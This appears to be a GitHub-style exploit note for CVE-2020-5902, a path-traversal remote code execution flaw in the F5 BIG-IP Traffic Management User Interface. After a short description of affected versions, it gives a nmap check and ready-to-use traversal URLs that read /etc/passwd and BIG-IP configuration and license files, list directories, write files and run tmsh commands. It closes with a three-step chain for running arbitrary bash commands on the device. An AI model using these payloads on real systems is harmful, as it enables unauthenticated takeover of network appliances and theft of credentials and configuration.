 The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

sudo nmap --script=http-vuln-cve2020-5902.nse -p PORT IP

https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
directoryList

List files within a folder specified through the directoryPath URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/tmp/

fileRead

Read a file content specified through the fileName URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

fileSave

Upload a file specified through the fileName URL parameter and content of the file specified through the content URL parameter, using POST method.

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=test

tmshCmd

Execute predefined (based on their documentation) system commands through the command URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user

#You can achieve Remote Code Execution on the BIG-IP TMUI by chaining the fileSave and tmshCmd utility modules.

First, you need to send this payload in order to be able to execute bash commands:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash (GET method)
Next, you’ll have to upload a file containing the command you want to execute on the system:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/rce&content=whoami (POST method) - Here we uploaded the /tmp/rce file containing the whoami command.
Finally, you must list the file and you’ll see the output of the executed command reflected in the file content:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/rce

(GET method)








